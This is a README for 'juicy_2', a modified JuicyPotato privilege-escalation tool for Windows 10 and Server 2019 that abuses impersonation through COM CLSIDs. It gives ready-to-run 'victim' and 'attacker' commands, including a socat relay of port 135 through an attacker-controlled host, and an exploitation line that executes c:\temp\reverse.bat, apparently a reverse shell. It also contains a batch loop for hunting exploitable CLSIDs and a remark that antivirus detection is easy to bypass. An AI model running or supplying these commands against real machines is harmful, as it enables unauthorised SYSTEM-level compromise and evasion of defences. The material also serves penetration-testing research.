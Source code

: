 # juicy_2
JuicyPotato for Win10 > 1803 &amp; Win Server 2019<br>
Please read my blog post first: https://decoder.cloud/2020/05/30/the-impersonation-game/ <br>
<hr>
<b>Disclaimer:</b><br>
This is just a quick & dirty modification of our JuicyPotato in order to test valid CLSID's and to impersonate them (YOU NEED IMPERSONATION PRIVILEGES) for newer Windows 10 and Windows Server 2019 platforms.<br>
(I know, this version is catched by Defender and other AV's, but with some modifications in code it's easy to bypass)
<hr>
Mandatory requisite is to have the possibility to redirect traffic for port 135 on a forwarder machine under you control.<br>
Feel free to improve the code, I was too lazy for this kind of stuff. <br>
<hr>
<i><b>For testing CLSID:</i></b><br>
juicy_2 -z -x [ip] of socat listener  -l [fake oxid resolver port] -n [local RPC server port] -c [CLSID to test]<br>
Example:<br>
  on victim:<br>
  juicy_2 -z -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8}<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995 
<br>
  <i><b>For exploitation:</i></b><br>
  on victim:<br>
  juicy_2 -x 192.168.1.1 -l 9995 -n 9998 -c {90F18417-F0F1-484E-9D3C-59DCEEE5DBD8} -t * -p c:\temp\reverse.bat<br>
  on attacker (192.168.1.1): <br>
  socat -v  TCP-LISTEN:135,fork,reuseaddr TCP:[victim machine]:9995<br>
<hr>  
<b>Hunting for juicy CLSID's with a stupod batch:</b><br>
@echo off<br>
FOR /F %%i IN (clsid.list) DO (<br>
   .\juicy_2 -z -x 192.168.1.1 -n 9998 -l 9995 -c %%i >> .\out.txt<br>
   timeout /t 2<br>
 )<br>
 
  

  
